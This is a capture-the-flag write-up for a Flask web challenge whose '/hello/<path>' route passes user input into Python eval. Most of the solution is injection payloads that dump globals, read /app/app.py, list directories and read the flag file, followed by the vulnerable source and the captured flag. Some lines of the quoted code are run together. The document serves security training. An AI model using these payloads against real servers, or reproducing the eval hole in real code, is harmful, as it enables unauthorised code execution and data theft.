






# Streamlining portal (3)

Hi, packet inspector,

the AI is preparing some kind of employee streamlining portal on [http://user-info.mysterious-delivery.tcc](http://user-info.mysterious-delivery.tcc). We fear this will lead to more lost packages.

Your task is to break into the web and find interesting information on the server.

May the Packet be with you!

**==Note: Solving this challenge will open 1 new challenge.==**

## Hints

- Use VPN to get access to the web.

## Solution

After a while I noticed that the url path after "/hello" is being output to html.



After trying one double quote (`"`), we got http error 500. That means something, there is probably a string concatenation.



`" + str(globals()) + "` successfully returns a dictionary of the current global symbol table. We can also see `/app/app.py`.



`" + str(open("/app/app.py").read()) + "` returns the actual code of the page. As I said, it is a string concatenation and the entire string is a parameter in the eval function.

```py
from flask import Flask, Blueprint, redirect, render_template

bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__) app.register_blueprint(bp, url_prefix="/")
    return app @bp.route('/hello/<path:userstring>')

def hello(userstring):
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')

def redirect_to_user():
    return redirect("/hello/user", code=302)
```

This payload `" + str(eval(str(exec("import os;x=os")))) + str(x.listdir("/app")) + "` should return directories and files in `/app` directory.



It returned `FLAG` directory so let's apply the same method for this directory.

`" + str(eval(str(exec("import os;x=os")))) + str(x.listdir("/app/FLAG")) + "`



`" + str(open("/app/FLAG/flag.txt").read()) + "`



`FLAG{OONU-Pm7V-BK3s-YftK}`
